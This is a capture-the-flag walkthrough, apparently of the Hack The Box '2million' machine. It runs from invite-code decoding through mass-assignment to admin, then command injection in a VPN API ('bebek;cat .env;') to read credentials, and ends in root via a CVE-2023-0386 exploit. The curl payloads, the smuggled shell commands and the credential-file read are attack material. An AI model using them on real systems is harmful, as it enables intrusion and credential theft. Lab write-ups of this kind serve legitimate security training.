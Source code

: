 1. Run Nmap to check which port is opened from the website.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/d5cbb2aa-38e0-4af7-8984-4413cf68d9bf)

2. Add Vhost to /etc/hosts with named 2million.htb so we are able to see the website's content. <br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/110fad6d-4deb-4a48-8a2c-3484d0c33d8b)

Website's content:

![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/f3704c2e-dd5d-4877-a520-b9a2a5abfa34)

3. After analyze all of the feature, inside join feature, we can input the special code before making an account.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/dbfc4540-c514-49aa-93e7-e68e5c52ff7d)
Content:
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/d9f91921-7365-46d2-9791-8c88b0fd8daa)

4. Let's check the source code and we found that the feature directed to /js/inviteapi.min.js.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/1c4cf80b-7929-485e-82cc-95a6ed2419ac)

5. When we opened the file, it seems that the code is obfuscated.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/5f6cd5ca-91d4-445b-b8dd-a22b675f7523)

6. We can deofuscated with this amazing [tool](https://lelinhtinh.github.io/de4js/).
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/d8f516fd-d268-4124-a63c-59ffbc720382)

7. As we can see that the code is sent to 2million.htb/api/v1/invite/how/to/generate. to see what the codes inside there, we can run `curl -X POST 2million.htb/api/v1/invite/how/to/generate` where -X is to run the method.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/db3d2922-a9b8-41de-91f4-326c2be02795)

8. We know that the message encoded using ROT 13, so we can decode with this [website](https://www.dcode.fr/rot-13-cipher).
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/02fdb811-606a-4c41-a02b-39bc97912db2)

9. The message says that we have to send request to 2million.htb/api/v1/invite/generate. We can use `curl -X POST 2million.htb/api/v1/invite/generate`.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/591a8d29-5f96-4b10-ae05-6927b31b5449)

10. Seems like it's base64 encoded message, so we decoded and YES! we get our special code and directed to Register page!.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/b2dde4fc-09dd-4aeb-bc35-5c75ebb12937)
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/d1cc855f-6d5e-4f98-8149-d691b34df086)

Register Page:
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/574385f4-cad7-46ac-9554-a56c150fdbd4)

11. Just give a random data and for my case, I inserted my username with bebek, email bebek@2million.htb, dan password bebekgoreng.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/f485295f-697d-456d-abd8-6c0bb66c82f4)

12. Do login with our credentials before and we can see the homepage like this.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/90ce1d70-4b73-411a-ae0d-e89a95abc83a)

Homepage:
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/6c43c3e0-b099-4deb-bdeb-261afda86e11)

13. Again, checking one by one feature and found something interesting inside access feature. In this feature, we can download our own VPN Certificate (OpenVPN).
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/41da80d3-599c-4d39-8ac9-49d150bb20a3)

14. Let's check the source code and we can know that the certificate is generated from `/api/v1/users/vpn/generate`.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/fdd85678-e5e5-429a-9019-2e88eac050ab)

15. When we opened the endpoint, we can only see the certificate content from the user so we can't get any crucial information there.Therefore, we are going to check the API itself with `curl -v 2million.htb/api`. <br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/e8853488-b674-4880-a479-557dca6474d4)

16. Copy the website's cookie and check the API endpoint using this command `curl -v 2million.htb/api --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2"`.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/573d1561-8889-4e72-bd03-fc38df8fbf57)
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/f118b90c-afa3-4ed8-8867-f17c8ea783dc)

17.Next let's check the api version endpoint with command `curl -v 2million.htb/api/v1 --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2"`.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/c27a4de1-80bd-4f15-a077-9da17910730d)

18. There are several endpoints and all are related to admin. Since we are not admin yet, the feature that become the main focus is update. Checking the feature can be done by executing this command `curl -v -X PUT 2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2"`.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/2a38922b-02a7-482f-a20d-a8d077185ba8)

19. The message shows that we have to input some data. In this case, we input our email and password like this `curl -v -X PUT 2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"email":"bebek@2million.htb", "password": "bebekgoreng"}'`.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/e2111d10-06b3-4b9c-9927-a5187677237a)

20. Now the message shows that is_admin is not in there so, we can set *is_admin value to true or is_admin = 1* with this command `curl -v -X PUT 2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"email":"bebek@2million.htb", "password": "bebekgoreng", "is_admin": 1}'`.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/d2f1af83-f9f1-41b6-a67c-3fccae8895e7)

21. To check if my account is admin or not, we can use the auth feature with this command `curl -v 2million.htb/api/v1/admin/auth --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2"`.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/6387d76a-4b71-491c-b88a-9aad80896fe8)

22. YES! We get the admin privilege, now we can check admin's VPN certificate. Command: `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json"`.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/746f51c9-cbdc-4572-9d25-62a95415f928)

23. The message now shows that there is missing parameter named username so we can input our username inside our payload. Command: `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"username": "bebek"}'`.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/56ffc94a-1f69-4401-8be9-fd0c29304440)

24. Okay, now the website generated the user's VPN certificate to us. How about next? Well, we now analyze if this configuration using exec() or system() in php. If yes then it becomes the vulnerability of this website. To prove it, we can insert linux command such as id, ls, cat, etc. between the data input like this `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"username": "bebek;ls;"}'.`<br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/69008932-dae0-4e00-9eab-f3ebad6da061)

25. It works! Now we can add -a to see all hidden files inside. Command: `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"username": "bebek;ls -a;"}'.`<br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/9f2f6309-16f2-48a9-8b26-2a266043576e)

26. Env file is always the main thing to get some crucial credentials. To open it we can use cat command. `curl -v -X POST 2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=e176qt56ar4je2kic6mjfvj7a2" --header "Content-Type: application/json" --data '{"username": "bebek;cat .env;"}'.`<br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/909214c7-c6e6-47a5-a21f-5e9d8a1d9949)

27. From there we know the admin and the password. We can use ssh to use admin's terminal. `ssh admin@2million.htb`. Right after login, we get the user flag!<br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/031211c1-8ebb-40bd-9211-1a9934f11bc0)

28. Now we want to find the root flag. Unfortunately, we can't get the su privilege directly.<br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/f7a74c31-64dc-468f-a736-22fc255548cb)

29. Checking one by one directory inside the terminal and found some interesting message inside mail folder.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/05d110da-777d-4bab-aca0-04552967dddf)

30. The message says that there is CVE that related to OverlayFS and when we search in Google, we found that this is [CVE-2023-0386](https://nvd.nist.gov/vuln/detail/CVE-2023-0386) with this [payload](https://github.com/sxlmnwb/CVE-2023-0386).

31. Run git clone https://github.com/sxlmnwb/CVE-2023-0386 inside our local terminal and zip the folder then copy the zip to the admin terminal with command scp payload.zip admin@2million.htb:/home/admin.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/75090bbc-c5b2-4abc-813e-28468d83a47d)
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/e8e28819-7fcc-4799-89b8-5339feebeba7)
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/9f830dc0-ef57-4b5b-841f-4604123b21d2)

Result in admin terminal:<br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/bfaf6261-3f31-4782-bef9-281a7da16ee7)

32. Unzip the file and execute the payload which is already listed in the github.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/229f5781-0e23-4767-b978-1e397599d728)
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/a0876400-9111-407c-9261-4105439c0b91)

33. Let's go! we get the root privilege and got the flag from root directory!
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/31368080-a473-4069-9e9a-30d71bd897fa)

